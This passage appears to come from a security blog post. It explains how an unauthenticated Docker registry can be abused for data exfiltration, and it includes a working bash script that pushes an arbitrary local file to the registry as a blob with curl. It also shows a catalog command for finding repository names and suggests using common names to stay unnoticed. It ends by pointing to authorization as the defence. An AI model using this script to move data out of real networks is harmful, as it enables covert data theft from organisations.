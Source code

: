 You could tell the docker registry API to upload any type of binary. As we're about to see below. (Although there are great tools out there for working with remote image registries such as [Skopeo](https://github.com/containers/skopeo), were just going to curl it directly that way we can run anywhere without any dependencies which makes it a perfect candidate for running on a vulnerable host.)

First, let's take a look at what the [documentation](https://docs.docker.com/registry/spec/api/#blob-upload) says we need here:

```bash
PUT /v2/<name>/blobs/uploads/<uuid>?digest=<digest>
Content-Length: <size of your content>
Content-Type: application/octet-stream
 
<your binary blob>
```

In order to recreate this, I wrote a bash script that would do this for me, this assumes you have a file locally called "ulises_superbad_file.txt" feel free to rename this to whatever file you want to upload.

```bash
[user@docker-registry ~]$ cat ulises_superbad_file.txt
TONS OF BAD STUFF IN HERE
```

```bash
#! /bin/bash
reponame=my-ubuntu
uploadURL=$(curl -siL -X POST "10.0.1.68:5000/v2/$reponame/blobs/uploads/" | grep 'Location:' | cut -d ' ' -f 2 | tr -d '[:space:]')
blobDigest="sha256:$(sha256sum ulises_superbad_file.txt | cut -d ' ' -f 1)"
curl -T ulises_superbad_file.txt --progress-bar "$uploadURL&digest=$blobDigest" > /dev/null
```

After running it we can see that there is a new layer in blobs!

<details><summary>Docker Registry Directory Structure for Ubuntu showing the new layer</summary></details>

Catting out that file will show that we have successfully exfiltrated using the docker registry API! And as you can see we did not overwrite any layer or repo, just adding to where the blob gets stored.

```bash
/var/lib/registry/docker/registry/v2 # cat blobs/sha256/46/4663e1a25d7f857db2dc2d18269aab7f2ca5ed1f482525de9e68ef14dc097dbf/data
TONS OF BAD STUFF IN HERE
```
In the above example, I put it into my my-ubuntu repo, ideally, you could replace this with any repo name, the more common the better.

To find out what repos exists just run the following and you will get back the list of repositories in the registry.
```bash
[user@docker-registry ~]$ curl -X GET 10.0.1.68:5000/v2/_catalog
{"repositories":["my-ubuntu"]}
```
# Defending Against the Dark Arts
So how can we defend against this type of attack? It starts with proper authorization, this type of attack is only possible because the user would have access to write to any repo in the registry.
